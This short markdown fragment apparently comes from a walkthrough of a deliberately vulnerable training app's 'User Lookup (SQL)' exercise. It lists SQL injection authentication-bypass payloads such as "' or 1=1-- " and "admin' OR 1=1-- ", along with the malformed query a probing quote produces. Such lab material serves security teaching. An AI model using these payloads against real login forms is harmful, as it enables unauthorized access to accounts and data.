



#### User Lookup (SQL)

- Demo








- Payload

```
Username: ' or 1=1-- 
Password: blah
```

###### Inspect

```
admin'
```

```mysql
SELECT * FROM accounts WHERE username='admin'' AND password=''
```


```
'--
```


```
admin' OR 1=1-- 
```

